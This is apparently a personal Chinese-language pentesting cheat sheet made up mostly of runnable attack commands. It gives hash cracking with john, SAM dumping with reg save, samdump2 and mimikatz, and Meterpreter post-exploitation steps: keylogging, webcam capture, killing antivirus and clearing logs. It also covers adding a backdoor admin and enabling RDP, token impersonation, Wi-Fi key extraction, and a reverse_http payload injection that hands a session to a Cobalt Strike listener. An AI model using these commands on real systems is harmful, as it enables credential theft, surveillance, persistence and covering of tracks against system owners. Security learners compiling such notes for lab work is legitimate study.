 linux密码爆破
john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
//导出 SAM 和 System 文件：通过 reg 的注册表导出
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
move 移动文件
//使用mimikatz读取SAM和System文件
lsadump::sam /sam:sam.hive /system:system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解win,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
run post/windows/manage/enable_rdp
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

wifi密码抓取
```css
netsh wlan show profile 
netsh wlan show profile name="ssid" KEY=clear
```

windows 控制台cmd乱码的解决办法 chcp 65001

开启远程桌面的办法
```cs
getuid
#如果当前是user权限要管理员权限才能开启3389
#要用到bypassuac提权
use exploit/windows/local/bypassuac
set session 1
run

run post/windows/manage/enable_rdp

#进入shell
net user hacker 123qwe.. /add
#将用户提升到管理员权限
net localgroup administrators hacker /add

rdesktop -u hacker -p 123qwe..  192.168.1.145
```

```Css
使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码

sessions -i 2
load kiwi
kiwi_cmd privilege::debug
ps
#getpid #查看meterpreter shell的进程号

migrate 1144
#kill 2496 #关闭进程
#run post/windows/manage/migrate #自动迁移进程

kiwi_cmd sekurlsa::logonPasswords

```

遇到杀软，无法甜土豆提权，可msf获得会话后假冒令牌提权
```css
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
```

msf联动cs
```Css
回到msf，输入background，将我们得到的会话放在后台
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lport 1233 #cobaltstrike监听的端口
set lhost 192.168.19.129 #cobaltstrike监听的ip
set disablepayloadhandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set session 1 #这里是获得的session的id
打开cs 开启监听，端口为1233，点击add添加监听
```

web服务器的php配置有个disable_functions可以禁用一些危险函数，可以用phpinfo查看是否开启，getshell后蚂蚁剑有插件市场可以绕过

设置tcp代理
这里因为有两个网段就先把路由添加上方便后续操作
msf操作
route add 192.168.138.0 255.255.255.0 2
route print 
session操作
run autoroute -s 192.168.138.0/24
run autoroute -p`


参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)

[MSF中kiwi模块的使用\_load kivi-CSDN博客](https://blog.csdn.net/m0_53087192/article/details/112707016)
